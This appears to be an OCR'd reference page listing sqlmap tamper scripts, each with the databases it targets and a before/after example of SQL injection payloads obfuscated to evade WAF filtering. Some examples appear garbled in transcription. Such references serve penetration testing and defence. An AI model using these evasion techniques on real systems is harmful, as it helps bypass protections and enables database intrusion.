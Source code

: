 ~~~
SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> SELECT table_name FROM INFORMATION_SCHEMA/**/.TABLES
~~~
### lowercase.py
Function: INSERT ==> insert
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> select table_name from information_schema.tables
~~~
### modsecurityversioned.py
Function: AND ==> /!12345AND/
Platform: MySQL 5.0
example
~~~
1 AND 2>1 — ==> 1 /*!30874AND 2>1*/ —
~~~
### multiplespaces.py
Function: Space==> Multiple spaces
Platform: All
example
~~~
1 UNION SELECT foobar ==> 1 UNION SELECT foobar
~~~
### nonrecursivereplacement.py
Function: union ==> uniunionon
Platform: All
example
~~~
1 UNION SELECT 2 — ==> 1 UNION SELESELECTCT 2-
~~~
### overlongutf8.py
Function: unicode encoding
Platform: All
example
~~~
SELECT FIELD FROM TABLE WHERE 2>1 ==> SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1
~~~
### percentage.py
Function: select ==> s%e%l%e%c%t
Platform: Mssql 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
example
~~~
SELECT FIELD FROM TABLE ==> %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
~~~
### randomcase.py
Function: INSERT ==> INseRt
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
INSERT ==> InseRt
~~~
### randomcomments.py
Function: INSERT ==> I/**/N/**/SERT
Platform: Mysql
example
~~~
INSERT ==> I / ** / N / ** / SERT
~~~